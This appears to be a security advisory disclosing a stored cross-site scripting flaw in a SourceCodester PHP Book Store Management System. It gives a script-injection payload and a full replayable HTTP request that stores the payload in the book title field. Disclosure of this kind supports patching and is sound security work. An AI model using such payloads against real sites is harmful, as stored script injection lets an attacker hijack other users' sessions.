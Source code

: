 # Stored Cross Site Scripting

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s): /bsms_ci/index.php/book/add

Proof of Concept: Go to /bsms_ci/index.php/book/add and using function “Add New Book” and insert payload at “Book Title", "Publisher" or "Author”.

[+] Payload: `<script>alert(document.domain)</script>`

Burpsuite Request:

```txt
POST /bsms_ci/index.php/book/add HTTP/1.1
Host: localhost
Content-Length: 1004
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylCtfxCb0KA0B0dj6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/book
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=mhhvamokocno4687ie4ovjlfi1s4n6om
Connection: close

------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="book_title"

<script>alert(document.domain)</script>
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="year"

2022
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="price"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="category"

1
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="gambar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="publisher"

Publisher
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="writer"

Author
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="stock"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="save"

Save
------WebKitFormBoundarylCtfxCb0KA0B0dj6--
```

Image:

![image](images/UI.png)

![image](images/burpsuite_request.png)

![image](images/xss-html.png)

![image](images/xss.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
